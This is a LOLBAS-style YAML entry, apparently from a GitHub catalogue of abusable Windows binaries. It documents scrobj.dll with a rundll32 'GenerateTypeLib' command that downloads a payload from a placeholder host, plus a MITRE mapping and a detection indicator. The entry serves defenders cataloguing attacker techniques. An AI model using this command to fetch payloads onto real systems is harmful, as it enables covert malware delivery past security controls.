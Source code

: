 ```yaml
---
Name: Scrobj.dll
Description: Windows Script Component Runtime
Author: Eral4m
Created: 2021-01-07
Commands:
  - Command: rundll32.exe C:\Windows\System32\scrobj.dll,GenerateTypeLib http://x.x.x.x/payload.exe
    Description: Once executed, rundll32.exe will download the file at the URL in the command to %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE\<random>\payload[1].exe.
    Usecase: Download file from remote location.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: c:\windows\system32\scrobj.dll
  - Path: c:\windows\syswow64\scrobj.dll
Detection:
  - IOC: Execution of rundll32.exe with 'GenerateTypeLib' and a protocol handler ('://') on the command line
Resources:
  - Link: https://twitter.com/eral4m/status/1479106975967240209
Acknowledgement:
  - Person: Eral4m
    Handle: '@eral4m'
---
```


